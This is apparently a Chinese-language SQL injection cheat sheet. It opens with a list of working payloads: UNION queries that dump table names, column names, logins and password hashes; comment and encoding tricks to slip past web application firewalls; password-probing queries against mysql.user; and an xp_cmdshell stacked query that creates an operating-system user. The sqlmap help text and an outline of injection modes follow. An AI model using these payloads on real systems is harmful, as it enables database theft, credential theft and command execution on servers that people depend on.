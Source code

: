 	id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/
	id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES--
	id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WH
	ERE+TABLE_NAME=0x41646d696e--
	SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
	SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way
	select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
	select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
	select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
	select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
	select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
	/?id=1+union+(select'1',concat(login,hash)from+users)
	/?id=(1)union(((((((select(1),hex(hash)from(users))))))))
	?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ net user lucifer UrWaFisShiT /*&id=1*/ --
	id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
	id=10 and 1=0/(select top 1 table_name from information_schema.tables)
	id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
	id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求

##sql注入防护技术（WAF）



#sql注入工具

##sqlmap
###sqlmap简介
注入模式（BESTQU）
1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4、联合查询注入，可以使用union的情况下的注入。
5、堆查询注入，可以同时执行多条语句的执行时的注入。


###sqlmap中英文说明文档（参数详解及使用语法）
Usage: python sqlmap.py [options]

Options（选项）:

	-h, --help            Show basic help message and exit        显示此帮助消息并退出
	-hh                   Show advanced help message and exit     展示先进的帮助信息并退出
	--version             Show program's version number and exit  显示程序的版本号并退出
	-v VERBOSE            Verbosity level: 0-6 (default 1)        详细级别：0-6（默认为1） 

Target（目标）:

	At least one of these options has to be provided to define the  
	target(s)
	以下至少需要设置其中一个选项，设置目标URL。
	